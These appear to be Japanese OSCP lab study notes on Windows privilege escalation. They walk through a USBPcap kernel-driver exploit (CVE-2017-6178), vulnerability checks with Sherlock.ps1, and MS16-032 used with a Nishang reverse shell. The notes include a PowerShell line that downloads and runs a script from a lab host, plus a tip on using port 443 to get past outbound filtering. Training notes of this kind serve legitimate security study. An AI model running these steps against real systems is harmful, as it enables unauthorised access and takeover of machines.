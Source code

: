 # Windows Kernel Vulnerabilities

### USBPcap Case Study

カーネルドライバの脆弱性に依存した特権の昇格

システムレベルのソフトウェア（ドライバやカーネル自体など）をエクスプロイトしようとする場合、ターゲットのオペレーティングシステム、バージョン、アーキテクチャなど、いくつかの要因に注意する必要がある

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![image-20230106101828652](img/WindowsKernelVulunerabilities/image-20230106101828652.png)

![](img/WindowsKernelVulunerabilities/image-20230106101828652-1673224564911-23.png)

この時点で、Windows 7 SP1 x86のネイティブカーネル脆弱性を探し出し、それを使って特権を昇格させることができるが、**サードパーティのドライバを悪用する方がより一般的**



* ドライバを列挙する

  ```
  driverquery /v
  ```

  ![image-20230106101933372](img/WindowsKernelVulunerabilities/image-20230106101933372.png)

  ※停止とマークされていても、カーネルメモリ空間にロードされているため、まだ対話できる可能性がある

* サードパーティ製品の脆弱性を検索する

  ```bash
  searchsploit USBPcap                                                                                  
  ------------------------------------------------------------------------ ---------------------------------
   Exploit Title                                                          |  Path
  ------------------------------------------------------------------------ ---------------------------------
  USBPcap 1.1.0.0 (WireShark 2.2.5) - Local Privilege Escalation          | windows/local/41542.c
  ------------------------------------------------------------------------ ---------------------------------
  Shellcodes: No Results
  ```

* 対象のバージョンを確認する

  ```
  Exploit Title    - USBPcap Null Pointer Dereference Privilege Escalation
  Date             - 07th March 2017
  Discovered by    - Parvez Anwar (@parvezghh)
  Vendor Homepage  - http://desowin.org/usbpcap/ 
  Tested Version   - 1.1.0.0  (USB Packet cap for Windows bundled with WireShark 2.2.5)
  Driver Version   - 1.1.0.0 - USBPcap.sys
  Tested on OS     - 32bit Windows 7 SP1 
  CVE ID           - CVE-2017-6178
  Vendor fix url   - not yet
  Fixed Version    - 0day
  Fixed driver ver - 0day
  ```

* 該当バージョンのドライバがインストールされているか確認する

  ```
  cd "C:\Program Files"
  dir
  type USBPcap.inf
  ```

  ※ドライバディレクトリは`C:\Windows\System32\DRIVERS`の下にあることが多いので注意

* エクスプロイトコードをコンパイルする

  * windowsクライアントのGCCコンパイラを利用する方法

    ```
    C:\Program Files\mingw-w64\i686-7.2.0-posix-dwarf-rt_v5-rev1> mingw-w64.bat
    
    C:\Program Files\mingw-w64\i686-7.2.0-posix-dwarf-rt_v5-rev1>echo off
    Microsoft Windows [Version 10.0.10240]
    (c) 2015 Microsoft Corporation. All rights reserved.
    
    C:\> gcc
    gcc: fatal error: no input files
    compilation terminated.
    
    C:\> gcc --help
    Usage: gcc [options] file...
    Options:
      -pass-exit-codes         Exit with highest error code from a phase.
      --help                   Display this information.
      --target-help            Display target specific command line options.
      --help={common|optimizers|params|target|warnings|[^]{joined|separate|undocumented}}[
                               Display specific types of command line options.
      (Use '-v --help' to display command line options of sub-processes).
      --version                Display compiler version information.
    ...
    ```

  * コンパイルする
  
    ![image-20230106102403706](img/WindowsKernelVulunerabilities/image-20230106102403706.png)
  
    ![](img/WindowsKernelVulunerabilities/image-20230106102403706.png)
  
  * 実行する
  
    ![image-20230106102420092](img/WindowsKernelVulunerabilities/image-20230106102420092.png)
  



## Sherlock.ps1

https://www.youtube.com/watch?v=kWTnVBIpNsE

脆弱性判定のpowerscriptモジュール. winpeasでもおそらくこのスクリプトをうごかしているのではないか。

* ファイルをコピーする

  ```bash
  cp /usr/share/powershell-empire/empire/server/data/module_source/privesc/Sherlock.ps1 ~/Documents/OSCP/LAB/10.11.1.50/ 
  ```

* 関数を検索する

  ```
  grep -i function Sherlock.ps1 
  ```

* 実行したい関数をSherlock.ps1の末尾に追加する

  ```
  vi Sherlock.ps1
  ```

  ![image-20230204233551297](img/WindowsKernelVulunerabilities/image-20230204233551297.png)

* powershellをメモリに読み込んで実行する

  ```powershell
  iex(new-object net.webclient).downloadstring('http://192.168.119.167/Sherlock.ps1')
  ```



## MS16-032

* 以下脆弱性が見つかる

  ```
  Title      : Secondary Logon Handle
  MSBulletin : MS16-032
  CVEID      : 2016-0099
  Link       : https://www.exploit-db.com/exploits/39719/
  VulnStatus : Appears Vulnerable
  ```

* powershell empireにcmd.exe用ではなくCLIでリバースシェルを取得できるソースコードがあり、それを編集する

  * 以下からコピーする

    ```
    /usr/share/powershell-empire/empire/server/data/module_source/privesc
    ```

  * `Invoke-MS16032.ps1`を編集する

    ![image-20230204233828295](img/WindowsKernelVulunerabilities/image-20230204233828295.png)

    パラメータが以下と定義されている。powershellの場合paramで定義したデータはオプションとして設定できる仕様

    <img src="img/WindowsKernelVulunerabilities/image-20230204233920367.png" alt="image-20230204233920367" style="zoom:50%;" />

  * 実行用のshell.ps1についてはnishangの`Invoke-PowerShellTCP.ps1`をコピーした。

    ![image-20230204234029031](img/WindowsKernelVulunerabilities/image-20230204234029031.png)

    ※4444だとファイアウォールに拒否されてしまっていた。443はアウトバンド許可されている

* シェルが実行されリバースシェルが取得できる

  ![image-20230204234147297](img/WindowsKernelVulunerabilities/image-20230204234147297.png)

  ![image-20230204234200141](img/WindowsKernelVulunerabilities/image-20230204234200141.png)

  ![image-20230204234207223](img/WindowsKernelVulunerabilities/image-20230204234207223.png)

  